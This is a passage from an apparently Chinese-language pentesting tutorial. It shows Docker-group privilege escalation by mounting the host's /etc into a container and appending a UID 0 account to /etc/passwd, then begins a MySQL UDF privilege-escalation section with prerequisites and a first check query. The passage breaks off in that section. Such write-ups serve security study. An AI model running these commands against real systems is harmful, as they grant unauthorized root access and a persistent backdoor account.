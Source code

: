 ![image-20230926192819115](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230926192819115.png)

这里已经获取到密码 hash，有两个办法进行权限提升，一是进行 hash 破解，二是添加一个特权账号，这里选择第二个方法。

```bash
openssl passwd -1 -salt test-docker
```

![image-20230926192845516](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230926192845516.png)

```bash
docker run -v /etc/:/mnt -it alpine
cd /mnt
echo 'test-docker:saltpasswd:0:0::/root:/bin/bash' >>passwd
```

![image-20230926192919044](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230926192919044.png)

![image-20230926192954693](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230926192954693.png)

#### MySQL UDF 提权

1. 背景介绍

UDF

[UDF](https://dev.mysql.com/doc/refman/5.7/en/adding-udf.html)（user defined function）用户自定义函数,是MySQL的一个扩展接口，称为用户自定义函数,是用来拓展MySQL的技术手段，用户通过自定义函数来实现在MySQL中无法实现的功能。文件后缀为`.dll`或`.so`,常用c语言编写。拿到一个WebShell之后，在利用操作系统本身存在的漏洞提权的时候发现补丁全部被修补。这个时候需要利用第三方应用提权。当MYSQL权限比较高的时候我们就可以利用udf提权。

利用前提

- mysql允许导入导出文件
- 高权限用户启动，如root。该账号需要有对数据库`mysql`的insert和delete权限，其实是操作里面的`func`表，所以`func`表也必须存在。
- 未开启`‑‑skip‑grant‑tables`。开启的情况下，UDF不会被加载，默认不开启。

实验环境

手工启动mysql，指定root启动：mysqld_safe --user=root。默认是mysql用户启动。

\##2. 未GetShell的情况

> 适用情况：目标主机开启MySQL远程连接，并且已经获得MySQL数据库连接的用户名和密码信息

\###2.1 手工提权

#### [判断前提条件](https://github.com/SEC-GO/Red-vs-Blue/blob/master/linux环境下的MySQL UDF提权.md#判断前提条件)

1. 查看是否允许导入导出文件

   ```
   mysql> show variables like "%secure_file_priv%";
   +------------------+-------+
   | Variable_name    | Value |
   +------------------+-------+
   | secure_file_priv |       |
   +------------------+-------+
   1 row in set (0.01 sec)
   ```
